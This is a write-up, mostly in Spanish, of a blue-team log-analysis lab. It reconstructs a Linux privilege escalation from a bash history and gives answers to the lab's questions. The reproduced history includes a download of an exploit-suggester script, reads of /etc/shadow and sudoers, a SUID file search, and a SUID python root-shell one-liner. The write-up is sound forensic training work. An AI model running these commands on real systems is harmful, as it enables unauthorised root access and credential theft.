

# Write-Up — Log Analysis: Privilege Escalation

**Platform:** BTLO  
**Lab:** Log Analysis / Privilege Escalation  
**Category:** CTF Like  
**Date:** 2025-10-01  
**Difficulty:** Easy
**OS:** Windows/Linux<br>
**Link:** https://blueteamlabs.online/home/challenge/log-analysis-privilege-escalation-65ffe8df12

---

## Scenario

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

---

## Bash History Analysis

Descargamos el archivo que nos proporcionan con el historial de comandos ejecutados en el servidor.
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
A través de ellos podemos reconstruir las acciones del atacante:

```bash
cat BTLO\ Log\ Analysis\ -\ Privilege\ Escalation/bash_history
```
```bash
nano index.php
touch test.php
rm test.php
cd ../
ls
ls -la
rmdir bck/
rm -rf bck/
cd html/
cd uploads/
ls -la
pwd
id
whoami
ls
cd /root
cd /
ls -la
cd /home
ls
cd /home/daniel/
ls -la
su root
find / -name perl*
find / -name python*
python
python -c 'import pty; pty.spawn("/bin/sh")'
find / -name gcc*
find / -name cc
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
ps -ef | grep root
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
ls -aRl /etc/| awk '$1 ~ /^.*r.*/'
crontab -l
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
sudo -l
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bashrc
cat ~/.profile
cat ~/.ssh/authorized_keys
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null
/bin/bash -i
cat /etc/fstab
cat /etc/passwd
cat /etc/shadow
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

---

## Challenge Questions — Answers & Justification

### 1) What user (other than `root`) is present on the server?

El atacante accede al directorio /home/daniel/ . Esto nos revela la existencia de otro usuario en el sistema.

**Respuesta:** daniel

---

### 2) Which script did the attacker attempt to download?

Observamos el uso de wget para descargar un script.

**Respuesta:** linux-exploit-suggester.sh


---

### 3) Which packet analyzer did the attacker attempt to use?

En el historial aparece `tcpdump`, que es una herramienta para capturar paquetes de red.

**Respuesta:** tcpdump


---

### 4) Which file extension did the attacker use to bypass the upload filter?

El atacante elimina un archivo con extensión .phtml, lo que indica que fue usado para evadir el filtro de subida de archivos PHP.

**Respuesta:** .phtml


---

### 5) What misconfiguration in `python` was exploited to gain root?

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Este comando intenta ejecutar una shell con como root usando el argumento -p, lo cual solo es posible si el binario de Python tiene el bit SUID activado. 
Esta información la he encontrado aquí: https://gtfobins.github.io/gtfobins/gdb/#suid

**Respuesta:** SUID
